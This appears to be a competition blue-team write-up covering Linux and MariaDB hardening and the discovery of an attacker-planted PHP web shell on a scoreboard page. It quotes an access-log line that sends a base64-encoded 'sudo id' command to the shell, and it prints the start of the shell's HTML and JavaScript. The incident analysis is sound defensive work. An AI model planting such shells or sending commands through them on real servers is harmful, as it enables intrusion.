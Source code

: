 ```bash
who -a
sudo nano /etc/ssh/sshd_config
sudo nvim /etc/ssh/sshd_config.d
htop
sudo apt install debsums
sudo debsums
systemctl list-units

```
Then while looking in the systemd services I found the worst malware ever Jenkins. Some ```sudo systemctl disable jenkins && sudo systemctl stop jenkins && sudo usermod -L jenkins``` threat eliminated. Next I look through users ```sudo usermod root -L``` to disallow root login. Next I ran [PSPY](https://github.com/DominicBreuker/pspy) while maybe not the best tool for blue teamers it was still great to see all the processes that got started on your box.
## Database
Now to the main attraction on my box the database. This along with ssh were the only 2 scored services on my box. The database was mariadb. First I ran ```sudo mysqldump --all-databases -p``` so that I could restore if my ham handed database admin broke some stuff. Next I ran ```sudo mysql_secure_installation``` which walked me through setting a root password and deleting annon users and deleting the test db. Next I logged into mysql and ran some queries first ```USE mysql;``` followed by ```SELECT User,Host,Password FROM mysql.user;``` Then created a wordpress user and granted it privileges
```sql
CREATE USER 'wordpress'@'172.16.4.7' IDENTIFIED WITH authentication_plugin BY '***';
GRANT ALL ON wordpress.* TO 'wordpress'@'172.16.4.7';
```
Password created by [diceware](https://diceware.dmuth.org/)
# Chapter 2
After Lunch the fun really started other than finding a few ssh keys in ~/.ssh/authorized keys nothing really happened on the db box. The real fun was on the game box. Upon logging in he ran the same script as me and started securing vsftp. I was called in to fix a 403 error in the apache server.
```php
<Directory /var/www/>
        Options -Indexes -FollowSymLinks
        AllowOverride None
        Require all granted <--- was set to denied
</Directory>
```
After that apache came back up and we started notice red team getting shells on the box (thanks to pspy). I decided to look into the apache access log.
```systemverilog
10.4.10.4 - - [08/Oct/2023:15:08:28 +0000] "GET /scoreboard/scorecheck.php?check=c3VkbyBpZA%3D%3D HTTP/1.1" 200 678 "http://172.16.4.4/scoreboard/scorecheck.php" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```
Thats strange all the other scorechecks are coming from go-http-client are where get requests to /web-config.json or /index.html
```systemverilog
172.16.255.221 - - [08/Oct/2023:15:09:05 +0000] "GET /web-config.json HTTP/1.1" 200 342 "-" "Go-http-client/1.1"
172.16.255.221 - - [08/Oct/2023:15:09:35 +0000] "GET /index.html HTTP/1.1" 200 2071 "-" "Go-http-client/1.1"
```
and sure enough at /var/www/scorebaord/scorecheck.php
```php
<title>PHP Web Shell</title>
<html>
<body>
    <!-- Replaces command with Base64-encoded Data -->
    <script>
    window.onload = function() {
        document.getElementById('execute_form').onsubmit = function () {
            var command = document.getElementById('check');
```